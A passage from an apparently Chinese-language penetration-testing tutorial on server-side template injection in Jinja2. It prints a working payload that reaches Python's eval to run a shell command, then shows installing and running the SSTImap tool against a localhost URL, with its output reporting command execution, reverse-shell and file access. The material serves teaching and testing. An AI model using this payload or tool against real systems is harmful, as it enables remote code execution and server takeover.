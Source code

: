   
![](https://mmbiz.qpic.cn/mmbiz_png/3ClhvEA8OWp6hVLABicDnZMk9rnjsiaMQJWWcvansKX36iao9ovlrguDR2MZoeomoibljLJLb87qHVreByRibFWhUiaQ/640?wx_fmt=png&from=appmsg "")  
  
漏洞利用代码：  
```
{{lipsum.__globals__['__builtins__']['eval']('__import__("os").popen("dir").read()')}}
```  
  
  
image-20250102150640299  
  
常用的利用代码还有很多，可以根据实际情况进行识别  
### 03.模板注入漏洞工具--SSTImap  
  
SSTImap是一款功能强大的渗透测试工具，该工具提供了一个交互式接口，可以帮助广大研究人员以自动化的形式检查网站的代码注入和服务器端模版注入漏洞。除此之外，该工具甚至还可以帮助我们自动利用这些发现的漏洞，从而访问目标服务器（主机）操作系统，来源：@vladko312。  
  
切换到项目目录中，并使用pip命令和项目提供的requirements.txt安装该工具所需的  
```
cd SSTImappip install  -r  requirements.txt
```  
#### 使用教程：  
  
扫描漏洞：  
```
python sstimap.py -u "http://127.0.0.1:5000/hello?name=1"
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3ClhvEA8OWp6hVLABicDnZMk9rnjsiaMQJE6FciaMeLOoUvbhGnvrGVWtJeCbDaA09GDxoC6JPcdviafM2tS4sQ8gg/640?wx_fmt=png&from=appmsg "")  
  
这个输出信息表明 SSTImap  
 工具已经成功识别了一个服务器端模板注入（SSTI）漏洞，并且确认了注入点。以下是输出信息的详细解释：  
- • **Jinja2 plugin has confirmed injection with tag ‘*’**  
: 这意味着 Jinja2 模板引擎插件已经确认可以通过使用 ‘*’ 标签进行注入。  
  
- • **SSTImap identified the following injection point**  
: 这部分列出了注入点的详细信息。  
  
- • **Shell command execution: ok**  
: 可以执行 shell 命令。  
  
- • **Bind and reverse shell: ok**  
: 可以绑定和反向 shell。  
  
- • **File write: ok**  
: 可以写入文件。  
  
- • **File read: ok**  
: 可以读取文件。  
  
- • **Code evaluation: ok, python code**  
: 可以执行 Python 代码。  
  
- • **Query parameter: name**  
: 注入发生在 URL 查询参数 name  
 中。  
  
- • **Engine: Jinja2**  
: 目标应用使用的是 Jinja2 模板引擎。  
  